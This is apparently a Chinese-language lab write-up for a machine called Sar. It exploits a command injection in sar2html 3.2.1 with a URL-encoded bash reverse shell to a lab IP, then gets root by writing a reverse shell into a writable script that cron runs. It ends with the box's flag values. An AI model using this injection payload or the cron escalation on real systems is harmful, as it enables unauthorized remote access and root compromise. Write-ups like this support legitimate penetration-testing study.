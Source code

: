 # Sar  
  
打Web  
![](images/Qt2OC3S.png)  
  
掃了一下路徑 感覺能用的東西蠻少的  
![](images/Ur3BneQ.png)  
  
robots.txt裡面有一行奇怪的東西 把它丟到路徑下可以進到一個奇怪的CMS sar2html 3.2.1  
![](images/7b5J0Wt.png)  
  
![](images/DSljrD4.png)  
  
隨便查一下可以查到一個exploit 裡面內容蠻少的 感覺像是Command Injection  
  
![](images/z1qnjR4.png)  
  
![](images/u9rxPEZ.png)  
  
輸入以後可以看到多出來幾個東西 點開第一個可以發現輸入id有效 把id改成reverse shell就可以直接RCE了  
  
```  
http://192.168.162.35/sar2HTML/index.php?plot=;bash%20-c%20%27bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.49.162%2F443%200%3E%261%27  
```  
  
![](images/YFHxfKV.png)  
  
#### 提權  
  
發現Cron會執行`/var/www/html/finally.sh`  
![](images/RexwCGy.png)  
  
到目錄下看 可以看到`finally.sh`會執行`write.sh` 而且我們有對`write.sh`寫入的權限  
![](images/y5QXm75.png)  
  
丟一個reverse shell進去 大概等一段時間就可以拿到root的shell了  
![](images/M4xXEu4.png)  
  
#### Proof  
  
local.txt  
`67330e8b480c61fe5613119db5c9a7d8`  
![](images/bFkggTI.png)  
  
proof.txt  
`d86a65d198730217034a6d8202453ba4`  
![](images/QS7fFB0.png)